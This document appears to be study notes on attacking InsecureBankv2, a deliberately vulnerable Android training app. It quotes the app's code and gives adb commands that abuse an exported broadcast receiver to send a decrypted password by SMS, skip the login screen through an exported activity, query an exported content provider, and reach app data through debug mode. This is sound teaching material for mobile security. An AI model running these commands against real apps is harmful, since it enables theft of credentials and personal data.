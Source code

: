 - [Manifest](#Mainfest)
  - [Debug Mode](#Debug)
  - [Java Debugger](#jdp)
  - [Backup](#Backup)
  - [External Storage](#External_Storage)
  - [Permissions](#Permissions)
- [Broadcast Receiver](#BroadcastReceiver)
  - [Broadcast Receiver Discription](#Broadcast_receiver_description)
  - [Exported Broadcast Receiver](#Exported_broadcast_receiver)
    - [Broadcast Receiver AndroidManifest declaration](#BR_AndroidManifest.xml)
    - [Broadcast Receiver method code implementation](#BR_method_code)
    - [ADB Broadcast Receiver exploitation](#adb_BR_exploitaion)
- [Activity](#Activity)
  - []()
  - []()
  - [Exported Activity Bypassing](#Exported_activity_bypassing)
    - [Manifset](#Manifset)
- [Intents](#Intents)
  - [Intent Sniffing](#Intent_sniffing)
    - [Intent AndroidManifest declaration](#Intent_AndroidManifest.xml)
    - [Intent method code implementation](#Intent_implementation)
    - [Create intent exploitation application](#Create_intent_exploitation_app)
- [Content Provider](#Content_provider)
  - [Content Provider Discription](#Content_Provider_Discription)
  - [Exported Content Provider](#Exported_content_provider)
    - [Content Provider AndroidManifest declaration](#CP_AndroidManifest.xml)
    - [Content Provider method code implementation](#CP_method_code)
    - [ADB Content Provider exploitation](#adb_CP_exploitaion)
- [Insecure Logging](#Insecure_Logging)
  - [logcat](#logcat)

# Manifest

## Debug
If an Application is marked as debuggable then an attacker can access the application’s data by assuming the privileges of that application
```
  adb shell
  run-as com.android.insecurebankv2 
```
### jdp

## Backup
------------------------------------------------------------------------------------------------------------------------
# BroadcastReceiver

## Broadcast_receiver_description
Broadcast receivers are designed to listen to system wide events called broadcasts (e.g. network activity, application updates, etc.) and then trigger something if the broadcast message matches the current parameters inside the Broadcast Receiver

## Exported_broadcast_receiver

### BR_AndroidManifest.xml
```
<receiver android:name="com.android.insecurebankv2.MyBroadCastReceiver" android:exported="true">
            <intent-filter>
                <action android:name="theBroadcast"/>
            </intent-filter>
        </receiver>
```
### BR_method_code
```
public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {
            try {
                SharedPreferences settings = context.getSharedPreferences("mySharedPreferences", 1);
                this.usernameBase64ByteString = new String(Base64.decode(settings.getString("EncryptedUsername", null), 0), "UTF-8");
                String decryptedPassword = new CryptoClass().aesDeccryptedString(settings.getString("superSecurePassword", null));
                String textPhoneno = phn.toString();
                String textMessage = "Updated Password from: " + decryptedPassword + " to: " + newpass;
                SmsManager smsManager = SmsManager.getDefault();
                System.out.println("For the changepassword - phonenumber: " + textPhoneno + " password is: " + textMessage);
                smsManager.sendTextMessage(textPhoneno, null, textMessage, null, null);
            } catch (Exception e) {
                e.printStackTrace();
            }
        } else {
            System.out.println("Phone number is null");
        }
    }
```
### adb_BR_exploitaion
```
am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver –es phonenumber 0123456789 –es newpass Test_pass123!
```
-------------------------------------------------------------------------------------------------------------------------------
# Activity

## Exported_activity_bypassing

### Manifset
```
<activity android:label="@string/title_activity_post_login" 
android:name="com.android.insecurebankv2.PostLogin" android:exported="true"/>

Bypassing: adb shell am start -n com.android.insecurebankv2/com.android.insecurebankv2.PostLogin
```
-------------------------------------------------------------------------------------------------------------------------------
# Intents

## Types of intent

Explicity: have a set receiver and can only be delivered to a predefined component e.g:
  - activity,
  - service,
  - receiver

Implicity: Only certain parameters are set e.g:
  - MIME type,
  - Data
and Android system decides which component to invoke.

## Intent sniffing

### Intent_AndroidManifest.xml
```
<receiver android:name="com.android.insecurebankv2.MyBroadCastReceiver" android:exported="true">
 <intent-filter>
      <action android:name="theBroadcast"/>
  </intent-filter>
</receiver>
```
### Intent_implementation
```
public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {

private void broadcastChangepasswordSMS(String phoneNumber, String pass) {
        if (TextUtils.isEmpty(phoneNumber.toString().trim())) {
            System.out.println("Phone number Invalid.");
            return;
        }
        Intent smsIntent = new Intent();
        smsIntent.setAction("theBroadcast");
        smsIntent.putExtra("phonenumber", phoneNumber);
        smsIntent.putExtra("newpass", pass);
        sendBroadcast(smsIntent);
    }
```
### Create_intent_exploitation_app
-------------------------------------------------------------------------------------------------------------------------------
# Content_Provider

## Content_Provider_Discription
Content providers are used to share app data with other applications, which is normally stored inside a database or file.

## Exported_content_provider

### CP_AndroidManifest.xml
```
provider android:name="com.android.insecurebankv2.TrackUserContentProvider" android:exported="true" android:authorities="com.android.insecurebankv2.TrackUserContentProvider"/>
```
### CP_method_code
```
static final String URL = "content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers";
static final String name = "name";
```
### adb_CP_exploitaion
```
content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers    
```
-------------------------------------------------------------------------------------------------------------------------------
# Insecure_Logging

## logcat
```
adb logcat | grep "$(adb shell ps | grep [app.package.name]  | awk '{print $2}')"
```
